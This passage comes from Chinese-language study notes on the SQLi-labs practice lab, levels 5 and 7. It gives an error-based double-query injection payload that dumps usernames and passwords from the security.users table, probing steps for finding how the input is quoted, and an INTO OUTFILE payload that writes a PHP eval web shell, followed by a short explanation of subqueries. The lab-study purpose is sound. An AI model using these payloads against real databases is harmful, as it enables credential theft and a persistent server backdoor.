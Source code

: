 



http://localhost/SQLi-labs/Less-5/
?id=1' union select 1,count(*), concat(

(    select concat( (select group_concat(username) from security.users) , (select group_concat(password) from security.users)    )     ),
floor(rand()*2)

)  as a from information_schema.tables group by a --+





select count(*), concat((select group_concat(username) from security.users), floor(rand()*2))as a from *information_schema.tables* group by a

??????????????????????????????





## §2.7 第七关 导出数据库

老三样：

- `id=1`，正常
- `id=1'`，报错
- `id=1''`，正常
- `id=1"`，正常
- `id=1""`，正常

两个单引号、两个双引号都正常，说明`$id$`在引号内。单引号报错，双引号正常，说明`$id$`在单引号内。

- `id=1' --+`

注释掉后面的单引号后仍然报错，说明单引号外还有东西包着。经过穷举可知是`(('$id'))`。

```
id=1‘)) union select null,'<?php eval($_GET('test')) ?>',null into outfile './1.php' 
```

 

# §3 SQL注入方法论

## §3.1 双查询注入

子查询的格式是`(SELECT (payload))`，该语句的作用相当于创建一张新表，可以根据将payload解析为字段名或表达式，MySQL对其计算后返回相应的计算值。

```sql
SELECT CONCAT((SELECT 1+1));
			+----------------------+
			| CONCAT((SELECT 1+1)) |
			+----------------------+
			| 2                    |
			+----------------------+
```
